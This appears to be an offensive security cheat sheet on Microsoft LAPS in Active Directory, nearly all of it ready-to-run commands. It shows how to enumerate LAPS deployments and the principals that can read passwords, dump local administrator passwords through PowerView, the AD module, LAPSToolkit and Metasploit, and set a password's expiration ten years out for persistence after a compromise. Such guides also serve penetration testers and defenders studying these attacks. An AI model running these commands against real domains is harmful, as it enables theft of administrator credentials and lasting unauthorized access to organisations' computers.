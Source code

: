 # LAPS

## Description

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

## Enumeration

### Check if LAPS is installed Locally

```bash
# Identify if installed to Program Files
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
Get-ChildItem 'C:\Program Files (x86)\LAPS\CSE\Admpwd.dll'
dir 'C:\Program Files\LAPS\CSE\'
dir 'C:\Program Files (x86)\LAPS\CSE\'

# Identify if installed by checking the AD Object
Get-ADObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=DC01,DC=Security,CN=Local'
```

### Enumerate GPO's that have "LAPS" in the name

{% code overflow="wrap" %}
```powershell
# PowerView
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

Get-DomainGPO | ? { $_.DisplayName -like "*password solution*" } | select DisplayName, Name, GPCFileSysPath | fl
```
{% endcode %}

### Enumerate Principals that can read the password on select systems

{% code overflow="wrap" %}
```powershell
# PowerView
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```
{% endcode %}

### ms-mcs-admpwd attribute

{% code overflow="wrap" %}
```powershell
# Powerview
# Find instances of ms-mcs-admpwd where it is not empty, Requires permission to view the ms-mcs-admpwd attribute.
Get-DomainComputer  | Select-Object 'dnshostname','ms-mcs-admpwd' | Where-Object {$_."ms-mcs-admpwd" -ne $null}

# Find instances where the expiration time is not empty, any user can read this so handy for checking if LAPS is installed on host
Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName

# PowerShell
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'

# Native
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { Write-Host "" ; $_.properties.cn ; $_.properties.'ms-mcs-admpwd'}
```
{% endcode %}

### LAPS Configuration file

If LAPS is deployed by a GPO, we can identify the configuratio file to discover some details about the configuration.

{% code overflow="wrap" %}
```powershell
Get-Content "\\DC01.Security.local\SysVol\Security.local\Policies\{F2E893C1-725C-4AB9-AE13-39E7BB117C32}\Machine\Registry.pol"
```
{% endcode %}

After downloading the GPO registry.pol file use `Parse-PolFile` to read the file.

**GPRegistryPolicyParser:** [https://github.com/PowerShell/GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser)

```powershell
Parse-PolFile "Registry.pol"
```

* Password complexity is upper, lower and numbers.
* Password length is 14.
* Passwords are changed every 30 days.
* The LAPS managed account name is LapsAdmin.
* Password expiration protection is disabled.

### LAPS Module commands

```powershell
# Import module
Import-Module AdmPwd.PS

# Find the OUs that can read LAPS passwords
Find-AdmPwdExtendedRights -Identity <OU>

# Once we have compromised a user that can read LAPS
Get-AdmPwdPassword -ComputerName <Hostname>
```

### Metasploit

```bash
use post/windows/gather/credentials/enum_laps
```

![](<../../.gitbook/assets/image (2027).png>)

## LAPSToolkit

**GitHub:** [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

```powershell
# Get Groups that can read the ms-Mcs-AdmPwd attribute
Find-LAPSDelegatedGroups

# Gets all computers which have LAPS enabled
Get-LAPSComputers

# Checks for ExtendedRights for Laps on each AD Computer
Find-AdmPwdExtendedRights
```

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

## LAPS Persistence

LAPS may be configured to automatically update a computers password on a regular basis. If we have compromised a computer and elevated to SYSTEM we can update the value to never expire for 10 years as a means of persistence.

```powershell
# PowerView
Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object '[HostName$]'
```

## Resources

{% embed url="http://www.harmj0y.net/blog/powershell/running-laps-with-powerview/" %}

{% embed url="https://adsecurity.org/?p=3164" %}

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}

